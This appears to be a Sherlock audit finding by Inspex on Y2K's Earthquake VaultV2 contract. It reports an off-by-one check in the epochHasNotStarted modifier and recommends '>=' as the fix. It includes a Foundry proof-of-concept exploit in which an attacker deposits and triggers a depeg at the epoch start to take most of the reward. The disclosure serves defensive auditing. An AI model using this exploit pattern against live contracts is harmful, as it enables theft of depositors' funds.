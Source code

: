 Inspex

medium

# The function that has `epochHasNotStarted` modifier can be called even if epoch is at the start state.

## Summary
The `epochHasNotStarted` modifier was improperly used with `>`, causing the begin block to remain in a not-started state.

## Vulnerability Detail

The `deposit()` function is used to deposit assets into the vault for purchasing or selling insurance of stable tokens before the `block.timestamp` reaches the `epochBegin` state. This is limited by the `epochHasNotStarted` modifier in line 102.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L93-L115

However, if the `block.timestamp` reaches the `epochBegin` state, the epoch state will still be not-started state due to the improper check in the `epochHasNotStarted` modifier in line 433.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L432-L436

This results in a contradiction with other logic in both the controller and the documentation.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L73

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L224

## Impact

The user can call functions that have `epochHasNotStarted` modifier when `block.timestamp` is equal the `epochBegin` state.

Moreover, the user can call both the `deposit()` and `triggerDepeg()` functions to receive the maximum benefit in a single transaction when the current `block.timestamp` is equal the value in the `epochBegin` state and the token has already depegged. Proof of concept as shown below.

```solidity
function testExploit() public {  
    vm.startPrank(USER);
    vm.warp(begin - 10 days);

    // deal ether
    deal(UNDERLYING, USER, 10000 ether, true);

    //approve gov token
    MintableToken(UNDERLYING).approve(depegPremium, 10000 ether);
    MintableToken(UNDERLYING).approve(depegCollateral, 10000 ether);

    //deposit in both vaults
    VaultV2(depegPremium).deposit(depegEpochId, 1 ether, USER);
    VaultV2(depegCollateral).deposit(depegEpochId, 1000 ether, USER);

    vm.stopPrank();

    //warp to begin
    vm.warp(begin);

    address ATTACKER = address(0x1337);

    // flashloan to claim most of reward in collateral
    deal(UNDERLYING, ATTACKER, 99 ether, true);

    vm.startPrank(ATTACKER);

    // deposit at begin timestamp
    MintableToken(UNDERLYING).approve(depegPremium, 99 ether);
    VaultV2(depegPremium).deposit(depegEpochId, 99 ether, ATTACKER);

    // trigger depeg at begin timestamp
    controller.triggerDepeg(depegMarketId, depegEpochId);

    VaultV2(depegPremium).withdraw(depegEpochId, 99 ether, ATTACKER, ATTACKER);

    // minus fee 
    assertTrue(MintableToken(UNDERLYING).balanceOf(ATTACKER) > 980 ether);
    vm.stopPrank();
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L432-L436
## Tool used
Manual Review

## Recommendation
We suggest changing the validation in the `epochHasNotStarted` modifier to `>=`.

```solidity
modifier epochHasNotStarted(uint256 _id) {
  if (block.timestamp >= epochConfig[_id].epochBegin)
        revert EpochAlreadyStarted();
  _;
}
```
